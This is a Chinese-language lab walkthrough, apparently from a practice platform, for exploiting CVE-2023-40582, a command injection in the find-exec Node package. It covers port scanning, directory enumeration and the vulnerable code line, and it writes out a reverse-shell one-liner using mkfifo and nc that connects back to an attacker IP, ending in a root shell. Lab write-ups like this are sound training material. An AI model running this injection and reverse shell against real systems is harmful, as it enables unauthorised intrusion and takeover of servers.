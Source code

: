 ```yaml
---
description: Easy -Linux /
---
```


# ✔️ CVE-2023-40582

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和3000

```bash
nmap -sC -sV -p- -oA cve40582 192.168.183.36 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查3000端口上的内容，发现是一个命令猜测游戏的网页，这意味着可以输入命令行：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 枚举3000端口上的隐藏文件/目录，找到3个隐藏文件依次查看：

```bash
dirsearch -u http://192.168.149.36:3000 -x 404,403,401,302,301
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 其中/server.js文件中，有问题的地方是调用了`find-exec`，它会尝试在系统$PATH变量中查找可执行的命令，这意味着可能可以执行一些不安全的命令，如：`rm` / `curl` / ...从而引发**命令注入漏洞**：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 从首页提供的信息中得知，当前目标系统中使用的`find-exec`是v1.0.2版本，因此适用于该漏洞
* CVE-2023-40582 Find-Exec 中的命令注入漏洞PoC：

```javascript
const findExec = require('find-exec');
const command = findExec([req.query.command]);
```

### 漏洞利用

* 因此此处可以拼接命令，所以构造反弹shell命令如下：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.244 4444 >/tmp/f
# 监听：
nc -lvnp 4444
```

### ROOT

* 直接获取到拥有root权限的shell：

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt文件中的内容：

<figure><img src="../../.gitbook/assets/6 (36).png" alt=""><figcaption></figcaption></figure>
